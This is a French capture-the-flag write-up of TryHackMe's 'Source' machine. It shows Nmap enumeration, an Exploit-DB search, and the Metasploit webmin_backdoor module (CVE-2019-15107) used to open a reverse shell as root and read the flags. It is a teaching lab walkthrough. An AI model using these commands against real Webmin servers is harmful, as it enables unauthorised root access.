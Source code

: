 ```yaml
---
author: Adrien
id: 1
licence: CC
title: 'WriteUp - "Source" de THM'
categories: "Writeups"
---
```


Petit writeup de la très (très) simple machine "Source" du site [TryHackMe.com](https://tryhackme.com).

## Énumération

Comme toujours lors de mes CTF je commence par une petite énumération, d'abord avec Nmap tout en testant s'il y a un site sur le port par défaut (80).

Apparement pas de site sur le port 80, donc pas de gobuster.

![No website](/assets/images/1_1_no80.png)

Voyons voir ce que nous sort Nmap...

```shell
nmap -A -oN nmap_a.txt 10.10.253.146 
```

```
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

Je fais toujours un `-oN nmap_a.txt` pour garder une trace du Nmap au cas où.

Du coup un port 22  avec 7.6p1 qui ne nous apporte pas grand chose après une verification sur [Exploit-DB](https://www.exploit-db.com/search?q=openssh), par contre le port 10000 avec webmin *1.890* d'après on a quelques trucs intéressants.

![Webmin Exploit DB](/assets/images/1_2_exploitdb.png)

J'ai d'abord essayé le 2ème lien, car les autres utilisent Metasploit et que je préfère éviter quand je peux. Le souci c'est que c'est juste une vérification de vulnérabilité et qu'en plus je n'ai pas réussi à lancer le script correctement.

Je suis donc passé au premier lien qui indique "**<** 1.920", sur metasploit j'ai cherché le script mais il n'y était pas, je l'ai donc téléchargé et ajouté dans `/home/<user>/.msf4/modules/webmin` (il faudra créer le dossier webmin, et il est possible que vous ayez le dossier `.msf5` au lieu de `.msf4`). Une fois lancé, je regarde les options et me rend compte qu'il faut un login et un mot de passe... Mauvaise pioche encore !

Cette fois j'essaie le troisième qui indique "Webmin 1.920 - Unauthenticated Remote Code Execution", la mauvaise nouvelle c'est qu'il n'y a pas de "<", mais la bonne c'est le "*Unauthenticated* " ! En lisant l'exploit on apprend que c'est une backdoor laissé par un ou plusieurs pirates et que cet exploit fonctionne de la version 1.890 à 1.920 ! Ouf ! Voici sa CVE : [CVE-2019-15107](https://nvd.nist.gov/vuln/detail/CVE-2019-15107).
Du coup on va chercher sur Metasploit :

```shell
msfconsole -q
```

```
msf5 > search webmin

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   3  exploit/linux/http/webmin_packageup_rce      2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   4  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   5  exploit/unix/webapp/webmin_upload_exec       2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
```

## Exploitation

Cool, il y est déjà donc on peut sélectionner le module 2 qui correspond à peu près au niveau de la date (2019-08-10) et indique "backdoor" :

```
msf5 > use 2
[*] Using configured payload cmd/unix/reverse_perl
```

Affichons les options :

```
msf5 exploit(linux/http/webmin_backdoor) > options

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

Il faudra donc changer :

- **RHOSTS** pour l'ip du serveur, dans mon cas `10.10.253.146`.

- **SSL** qu'il faut mettre à `true`, on peut le voir car si on passe par le navigateur pour aller sur webmin on nous indique qu'il faut passer en https.

- **LPORT** pour notre ip, comme TryHackMe utilise un VPN on a juste à spécifier l'ip qui se trouve dans la partie `tun0` de la commande `ip addr`. Dans le cas d'une attaque sans réseau privé (local ou non) il faut préciser l'ip publique de la boxe internet (visible sur des sites comme [myip.com](https://www.myip.com/)) et faire du *Port Forwarding* vers notre machine.

Pour spécifier une option il faut faire `set <NOM_DE_L'OPTION> <VALEUR>`, par exemple `set RHOSTS 10.10.253.146`.

On a plus qu'à lancer l'exploit !

```shell
msf5 exploit(linux/http/webmin_backdoor) > exploit
```

```
[*] Started reverse TCP handler on xx.x.xxx.xxx:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (xx.x.xxx.xxx:4444 -> 10.10.253.146:38200) at 2020-08-27 12:45:04 -0400
```

## Récupération des données

Commençons par voir si l'exploit fonctionne bien et quel utilisateur nous avons :

```shell
id
uid=0(root) gid=0(root) groups=0(root)
```

Woaw, on est déjà root ! ^^

On peut optionnellement essayer d'avoir un shell "plus intuitif" :

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

Bien y a plus qu'à récupérer les flags !

```
root@source:/usr/share/webmin/# ls /home
dark

root@source:/usr/share/webmin/# ls /home/dark
user.txt
webmin_1.890_all.deb

root@source:/usr/share/webmin/# cat /home/dark/user.txt
THM{XXXXXXXXXXX}

root@source:/usr/share/webmin/# ls /root
root.txt

root@source:/usr/share/webmin/# cat /root/root.txt
THM{XXXXXXXXXXX}
```

## Conclusion

Et bien ce fut plutôt facile ! Mais qu'est-ce qu'on a vu ?
Un Nmap classique, de la recherche sur Exploit-DB et un peu de Metasploit et comment "améliorer" un shell avec python.

Voilà, j'espère que ce WriteUp vous a plu :D

Si vous avez des avis, des conseils, des questions, des corrections ou que vous voulez simplement discuter n'hésitez pas à me joindre sur discord : `{{ site.data.globals.discordtag }}` ou par e-mail : `adrien.luitot[at]mailo.com`
